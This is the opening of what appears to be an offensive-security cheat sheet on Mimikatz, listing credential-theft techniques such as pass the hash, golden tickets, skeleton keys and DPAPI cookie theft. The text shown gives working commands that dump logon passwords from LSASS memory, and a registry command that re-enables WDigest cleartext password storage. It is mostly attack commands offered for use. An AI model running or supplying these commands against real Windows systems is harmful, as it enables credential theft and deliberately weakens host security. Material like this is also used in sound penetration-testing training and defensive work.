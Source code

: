 # Mimikatz

## Summary

* [Execute commands](#execute-commands)
* [Extract passwords](#extract-passwords)
* [LSA Protection Workaround](#lsa-protection-workaround)
* [Mini Dump](#mini-dump)
* [Pass The Hash](#pass-the-hash)
* [Golden ticket](#golden-ticket)
* [Skeleton key](#skeleton-key)
* [RDP Session Takeover](#rdp-session-takeover)
* [RDP Passwords](#rdp-passwords)
* [Credential Manager & DPAPI](#credential-manager--dpapi)
    * [Chrome Cookies & Credential](#chrome-cookies--credential)
    * [Task Scheduled credentials](#task-scheduled-credentials)
    * [Vault](#vault)
* [Commands list](#commands-list)
* [Powershell version](#powershell-version)
* [References](#references)

![Data in memory](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

## Execute commands

Only one command

```powershell
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

Mimikatz console (multiple commands)

```powershell
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

## Extract passwords

> Microsoft disabled lsass clear text storage since Win8.1 / 2012R2+. It was backported (KB2871997) as a reg key on Win7 / 8 / 2008R2 / 2012 but clear text is still enabled.

```powershell
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest

# to re-enable wdigest in Windows Server 2012+
# in HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest 
# create a DWORD 'UseLogonCredential' with the value 1.
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```
